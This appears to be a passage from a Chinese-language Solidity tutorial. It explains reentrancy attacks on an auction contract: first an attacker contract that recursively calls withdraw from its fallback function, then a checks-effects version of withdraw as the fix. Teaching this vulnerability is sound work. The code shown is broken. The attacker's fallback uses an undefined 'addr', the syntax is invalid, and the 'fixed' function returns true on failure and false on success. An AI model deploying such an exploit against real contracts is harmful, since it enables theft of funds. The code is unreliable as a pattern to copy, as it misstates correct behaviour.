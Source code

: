 

**漏洞**

重入攻击实例：

```js
contract hackV2{
    uint stack = 0;
    
    function hackBid(address addr) payable public{
        SimpleAuctionV1 s = SimpleAuctionV1(addr);
        s.bid.value(msg.value);
    }
    
    function hancWidthdraw(address addr) public payable{
         SimpleAuctionV1(addr).widthdraw();
    }
    
    function() public payable(){
        stack += 2;
        if(msg.sender.balance >= msg.value && msg.gas > 6000 && stack < 500){
            SimpleAuctionV1(addr).widthdraw();
        }
    }
}
```

当黑客调用withdraw时，会自动执行黑客合约的fallback，如果条件满足，会发起递归提现。



### 举例：拍卖v3

用checks-effects模式，即先清零。

同时调用`send`方法，不让`fallback`进行多余的操作，如发起一次`withdraw`。

```js
function widthdraw() public returns (bool){
    // check 校验
    require(now > auctionEnd);
    require(msg.sender != highestBidder);
    require(bids[msg.sender] > 0);
    
    uint amount = bids[msg.sender];
    // 先清零
    bids[msg.sender] = 0;
    // 调用sender，或tranfer
    if (!msg.sender.send(amount)){
        bids[msg.sender] = amount;
        return true;
    }
    return false;
}
```
